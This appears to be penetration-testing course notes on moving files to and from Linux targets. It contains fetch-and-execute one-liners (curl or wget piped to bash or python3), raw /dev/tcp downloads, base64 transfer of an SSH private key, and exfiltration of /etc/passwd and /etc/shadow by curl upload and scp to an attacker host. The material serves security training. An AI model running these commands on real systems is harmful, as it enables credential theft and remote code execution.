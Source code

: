 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Linux File Transfer Methods

### Base64 Encoding / Decoding

Pwnbox - Check File MD5 hash

```
md5sum id_rsa
```

Pwnbox - Encode SSH Key to Base64

```
cat id_rsa |base64 -w 0;echo
```

Linux - Decode the File

```
echo -n 'LS0tLS1CRUdJTiB.........dfgfQo=' | base64 -d > id_rsa
```

Linux - Confirm the MD5 Hashes Match

```
md5sum id_rsa
```

### Web Downloads with Wget and cURL

Download a File Using wget

{% code fullWidth="true" %}
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
{% endcode %}

Download a File Using cURL

{% code fullWidth="true" %}
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
{% endcode %}

### Fileless Attacks Using Linux

Fileless Download with cURL

```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

Fileless Download with wget

{% code fullWidth="true" %}
```
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
{% endcode %}

### Download with Bash (/dev/tcp)

Connect to the Target Webserver

```
exec 3<>/dev/tcp/10.10.10.32/80
```

HTTP GET Request

```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

Print the Response

```
cat <&3
```

### SSH Downloads

Enabling the SSH Server

```
sudo systemctl enable ssh
```

Starting the SSH Server

```
sudo systemctl start ssh
```

Checking for SSH Listening Port

```
netstat -lnpt
```

**Linux - Downloading Files Using SCP**

```
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

### Upload Operations

### Web Upload

Pwnbox - Start Web Server

```
sudo python3 -m pip install --user uploadserver
```

Pwnbox - Create a Self-Signed Certificate

{% code fullWidth="true" %}
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
{% endcode %}

Pwnbox - Start Web Server

```
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

Linux - Upload Multiple Files

{% code fullWidth="true" %}
```
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
{% endcode %}

### Alternative Web File Transfer Method

Linux - Creating a Web Server with Python3

```
python3 -m http.server
```

Linux - Creating a Web Server with Python2.7

```
python2.7 -m SimpleHTTPServer
```

Linux - Creating a Web Server with PHP

```
php -S 0.0.0.0:8000
```

Linux - Creating a Web Server with Ruby

```
ruby -run -ehttpd . -p8000
```

Download the File from the Target Machine onto the Pwnbox

```
wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload

```
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```
